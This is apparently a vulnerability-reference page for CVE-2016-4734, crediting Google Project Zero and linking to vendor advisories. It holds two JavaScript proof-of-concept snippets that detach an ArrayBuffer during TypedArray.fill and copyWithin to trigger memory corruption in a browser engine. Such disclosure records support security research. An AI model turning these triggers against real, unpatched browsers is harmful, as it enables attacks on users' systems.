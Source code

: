 # CVE-2016-4734

- Report: Jun 2016
- Fix: July 2016
- Credit: Natalie Silvanovich, Google Project Zero

## PoC

```javascript
function f(){
  try{
    postMessage("test", "http://127.0.0.1", [q])
  } catch(e){ }
  return 0x12345678;
}

var q = new ArrayBuffer(0x7fffffff);
var o = {valueOf : f}
var a = new Uint8Array(q);

try{
  a.fill(0x12, o, 0x77777777);
} catch(e){ }
```

```javascript
function f(){
  try{
    postMessage("test", "http://127.0.0.1", [q])
  } catch(e){ }
  return 0x22345678;
}

var q = new ArrayBuffer(0x7fffffff);
var o = {valueOf : f}
var a = new Uint8Array(q);

a.copyWithin(0x12345678, o, 0x32345678);
```

## Reference

- [Apple](https://support.apple.com/ko-kr/HT207157)
- [Project Zero (TypedArray.fill)](https://bugs.chromium.org/p/project-zero/issues/detail?id=862)
- [Project Zero (TypedArray.copyWithin)](https://bugs.chromium.org/p/project-zero/issues/detail?id=863)
